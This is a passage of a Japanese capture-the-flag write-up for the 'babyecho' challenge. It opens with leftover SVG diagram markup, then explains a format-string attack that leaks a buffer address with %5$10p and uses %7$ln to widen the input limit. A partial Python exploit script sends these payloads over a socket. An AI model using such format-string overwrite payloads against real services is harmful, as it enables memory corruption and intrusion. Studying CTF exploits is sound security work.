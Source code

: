 <text class="address" text-anchor="end" fill="black" font-family="Consolas, 'Courier New', Courier, Monaco, monospace" dy=".35em" transform="translate(70,140)">+0x0c</text>
<text class="address" text-anchor="end" fill="black" font-family="Consolas, 'Courier New', Courier, Monaco, monospace" dy=".35em" transform="translate(70,180)">+0x10</text>
<text class="address" text-anchor="end" fill="black" font-family="Consolas, 'Courier New', Courier, Monaco, monospace" dy=".35em" transform="translate(70,220)">+0x14</text>
<text class="address" text-anchor="end" fill="black" font-family="Consolas, 'Courier New', Courier, Monaco, monospace" dy=".35em" transform="translate(70,260)">+0x18</text>
<text class="address" text-anchor="end" fill="black" font-family="Consolas, 'Courier New', Courier, Monaco, monospace" dy=".35em" transform="translate(70,300)">+0x1c</text>
<text class="address" text-anchor="end" fill="black" font-family="Consolas, 'Courier New', Courier, Monaco, monospace" dy=".35em" transform="translate(70,380)">+0x420</text>
<text class="comment" text-anchor="start" fill="black" dy=".35em" transform="translate(300,40)">1. バッファーのアドレスを取得</text>
<text class="comment" text-anchor="start" fill="black" dy=".35em" transform="translate(300,80)">2. バイト数格納位置の1バイト上位へ移動</text>
<text class="comment" text-anchor="start" fill="black" dy=".35em" transform="translate(300,120)">3. その位置へ入力文字列長を格納</text>
<text class="address" text-anchor="start" fill="black" font-family="Consolas, 'Courier New', Courier, Monaco, monospace" dy=".35em" transform="translate(310,270)">%5$10p</text>
<text class="address" text-anchor="start" fill="black" font-family="Consolas, 'Courier New', Courier, Monaco, monospace" dy=".35em" transform="translate(380,240)">addr\_buf - 0xb</text>
<text class="address" text-anchor="start" fill="black" font-family="Consolas, 'Courier New', Courier, Monaco, monospace" dy=".35em" transform="translate(290,205)">%7$ln</text>
</svg>



13バイト制限のため、2回に分けてこの方法を試行します。
まず1回目に、**%5$10p**と入力することによって、esp+10に格納されているバッファーのアドレスを取得します。

そのアドレスから0x0bを引くことによって、バッファーの読み込みバイト数が格納されているアドレスの1バイト上位のアドレスを計算します。
これは、一度に送ることができる文字数が制限されていることによって、**自由に大きな数値を指定できないため、**バッファーのバイト数格納位置の1バイト上位に文字列長を書き込む方法をとったためです。今回の最大13バイトの入力という制限下では、最大でも9までしか数値を指定できません。それをそのままバッファー読み込みバイト数に格納しても、現状の13バイトより減ってしまいます。そのため、書き込む位置を上位にずらすことで、結果的にその数値をビットシフトによる掛け算で大きくし、バイト数制限の値を拡張しています。

そして2回目の入力時に、先ほど計算したアドレスへ文字数である4を、%nフォーマット文字列を使って書き込みます。これによって、現在0x0000000bとなっている読み込みバイト数を、0x0000040bに書き換えることができます。

コードは以下のようになります。

```python
#!/usr/bin/env python

import sys
import socket
import struct

HOST = 'localhost' # 'babyecho_eb11fdf6e40236b1a37b7974c53b6c3d.quals.shallweplayaga.me'
PORT = 3232

s = socket.create_connection((HOST, PORT))

def exploit():
    index = 7 # index of read/write buffer

    print(s.recv(8192))
    s.send("%5$10p\n") # request buffer address

    addr_buf = int(s.recv(10), 16)
    print("[DEBUG] Buffer address = 0x%x" % addr_buf)

    code = struct.pack('<I', (addr_buf - 0xb)) # address[buffer size limit] << 8
    code += "%%%d$ln\n" % index # write message text length = 4

    s.recv(8192)
    s.send(code) # overwrite buffer
```